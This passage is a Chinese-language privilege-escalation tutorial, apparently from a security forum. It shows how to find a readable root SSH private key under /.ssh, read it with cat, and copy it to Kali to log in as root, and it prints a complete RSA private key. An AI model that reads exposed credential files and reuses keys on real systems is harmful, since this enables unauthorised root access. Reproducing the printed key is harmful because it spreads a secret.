 ![image-20210701180920818](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e435de51356b82188ddbd124e7a1b3a53f63071a.png)

SSH 密钥
------

### 前言

可以使用 SSH 密钥而不是密码来验证使用 SSH 的用户。  
SSH密钥成对提供：一个私钥和一个公钥。私钥应始终保密。  
如果用户不安全地存储了其私钥，则任何能够读取密钥的用户都可能能够使用它登录到他们的帐户。

### 实操

#### 1.root用户的ssh密钥存储在`.ssh`

```php
ls -l /.ssh 
```

![image-20210701181023210](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5bec0d87fd30b1d2ca715253d9f0a258cad4d35c.png)

并且文件root\_key是可读的

#### 2.查看root\_key文件的内容：

```php
cat /.ssh/root_key
```

![image-20210701181321426](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-16a5debd2edc86c2cb15e9b1070e6f4f72cfdfca.png)

### 3.将root\_key文件复制到kali并加权以便 SSH 接受它：

注意格式问题

```php
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
gLTH3Fov2Ss8QuGfvvD4CQ1f4N0PqnaJ2WJrKSP8QyxJ7YtRTk0JoTSGWTeUpExl
p4oSmTxYnO0LDcsezwNhBZn0kljtGu9p+dmmKbk40W4SWlTvU1LcEHRr6RgWMgQo
OHhxUFddFtYrknS4GiL5TJH6bt57xoIECnRc/8suZyWzgRzbo+TvDewK3ZhBN7HD
eV9G5JrjnVrDqSjhysUANmUTjUCTSsofUwlum+pU/dl9YCkXJRp7Hgy/QkFKpFET
Z36Z0g1JtQkwWxUD/iFj+iapkLuMaVT5dCq9kQIDAQABAoIBAQDDWdSDppYA6uz2
NiMsEULYSD0z0HqQTjQZbbhZOgkS6gFqa3VH2OCm6o8xSghdCB3Jvxk+i8bBI5bZ
YaLGH1boX6UArZ/g/mfNgpphYnMTXxYkaDo2ry/C6Z9nhukgEy78HvY5TCdL79Q+
5JNyccuvcxRPFcDUniJYIzQqr7laCgNU2R1lL87Qai6B6gJpyB9cP68rA02244el
WUXcZTk68p9dk2Q3tk3r/oYHf2LTkgPShXBEwP1VkF/2FFPvwi1JCCMUGS27avN7
VDFru8hDPCCmE3j4N9Sw6X/sSDR9ESg4+iNTsD2ziwGDYnizzY2e1+75zLyYZ4N7
6JoPCYFxAoGBAPi0ALpmNz17iFClfIqDrunUy8JT4aFxl0kQ5y9rKeFwNu50nTIW
1X+343539fKIcuPB0JY9ZkO9d4tp8M1Slebv/p4ITdKf43yTjClbd/FpyG2QNy3K
824ihKlQVDC9eYezWWs2pqZk/AqO2IHSlzL4v0T0GyzOsKJH6NGTvYhrAoGBAOL6
Wg07OXE08XsLJE+ujVPH4DQMqRz/G1vwztPkSmeqZ8/qsLW2bINLhndZdd1FaPzc
U7LXiuDNcl5u+Pihbv73rPNZOsixkklb5t3Jg1OcvvYcL6hMRwLL4iqG8YDBmlK1
Rg1CjY1csnqTOMJUVEHy0ofroEMLf/0uVRP3VsDzAoGBAIKFJSSt5Cu2GxIH51Zi
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----
```
